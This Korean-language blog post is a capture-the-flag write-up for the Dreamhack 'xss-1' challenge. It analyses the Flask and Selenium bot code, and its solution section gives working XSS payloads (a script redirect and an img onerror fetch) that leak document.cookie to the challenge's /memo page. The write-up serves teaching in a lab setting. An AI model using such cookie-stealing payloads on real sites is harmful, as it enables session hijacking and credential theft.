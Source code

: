 ```yaml
---
layout: post
category: [wargame, web]
title: xss-1
---
```


## [문제](https://dreamhack.io/wargame/challenges/28)
XSS 공격으로 플래그를 얻는 문제이다.

## 문제 분석
> 메인 페이지  
![페이지 메인](/assets/img/2024-05-09-xss-1/main-page.png)   

> ``/vuln?param=<script>alert(1)</script>``   
![스크립트가 실행된다](/assets/img/2024-05-09-xss-1/xss.png)   
vuln(xss) page 는 클라이언트가 접속하면 param에 있는 스크립트를 실행하는 페이지인것 같다.   

> ``/memo?memo=hello``   
memo 페이지는 쿼리스트링에 있는 문자열을 메모에 기록하는 역할을 한다.   
![쿼리스트링에 있는 문자열이 메모에 기록된다](/assets/img/2024-05-09-xss-1/memo.png)

> ``/flag``   
플래그를 얻기 위한 입력창으로 보인다.   
![XSS 공격 입력창](/assets/img/2024-05-09-xss-1/flag-input.png)   
폼이 있으니 서버 소스코드를 확인해보자.

```py
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST": # 폼을 제출하면 (POST)
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

``/flag`` 페이지에 있는 폼을 제출하면 ``check_xss()`` 함수에 내가 입력한 입력값과 플래그 값을 같이 포함하고 있는 것을 알 수 있다. ``check_xss()`` 함수를 확인해보자.

```py
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

``read_url()`` 함수에 ``/vuln`` 페이지 주소와 내가 입력한 값, 플래그 값(쿠키) 를 넘겨주고 있다. ``read_url()`` 함수를 살펴보자.

```py
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

[셀레니움](https://www.selenium.dev/) 을 사용해 브라우저에 쿠키 값을 추가하고 주어진 ``url`` 변수로 이동하고 있다. 추가되는 쿠키 값은 FLAG 가 될 것이다. (``check_xss()`` 에 플래그가 매개변수로 있기 때문에)

> 셀레니움이란?   
Selenium automates browsers. That's it! - selenium.dev  
브라우저를 자동화하는것으로, 서버에서 브라우저를 통해 크롤링이나 동작을 자동화 할 수 있는 프레임워크이다.

이 문제에선 XSS 공격에 클라이언트가 필요하기 때문에 셀레니움을 사용한 것 같다.

## 풀이
XSS 공격을 통해 문제를 풀 수 있다. 아래의 페이로드 이외에도 XSS 공격이 가능한 페이로드면 가능해 보인다.
```js
<script>location.href = "/memo?memo=" + document.cookie<script>
<img src="HEHE" onerror="fetch('/memo?memo=' + document.cookie)">
... 이외 많은 XSS 공격 페이로드(?)
```

위 페이로드를 ``/flag`` 페이지에서 폼을 통해 제출하면 쿠키에 플래그가 포함되어 있는 브라우저가 서버에서 실행되고, 그 브라우저는 제출한 페이로드를 실행하기 위해 XSS 공격에 취약한 페이지 (``/vuln?param=페이로드``) 로 접속한다 페이로드에 포함되어 있는 스크립트를 서버에서 동작 중인 브라우저가 실행하고 그 스트립트는 ``/memo`` 에 쿠키 정보를 포함하여 요청을 보내게 된다.

공격자는 ``/memo`` 페이지에 접속해 서버에서 실행된 브라우저에 담겨 있는 쿠키를 확인할 수 있게 된다.

![FLAG](/assets/img/2024-05-09-xss-1/flag.png)